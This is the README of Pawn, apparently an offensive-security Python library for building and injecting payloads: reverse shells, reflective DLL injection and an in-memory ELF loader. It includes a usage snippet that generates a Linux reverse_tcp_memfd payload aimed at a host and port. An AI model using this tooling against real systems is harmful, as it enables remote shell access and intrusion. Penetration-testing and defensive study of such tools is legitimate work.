 # Pawn

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn/forks">
        <img src="https://img.shields.io/github/forks/EntySec/Pawn?color=green">
    </a>
    <a href="https://github.com/EntySec/Pawn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pawn?color=yellow">
    </a>
    <a href="https://www.codefactor.io/repository/github/EntySec/Pawn">
        <img src="https://www.codefactor.io/repository/github/EntySec/Pawn/badge">
    </a>
</p>

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

module = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    type='reverse_tcp'
)

module.set('host', '127.0.0.1')
module.set('port', 8888)

payload = pawn.run_module(module)
print(len(payload))
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
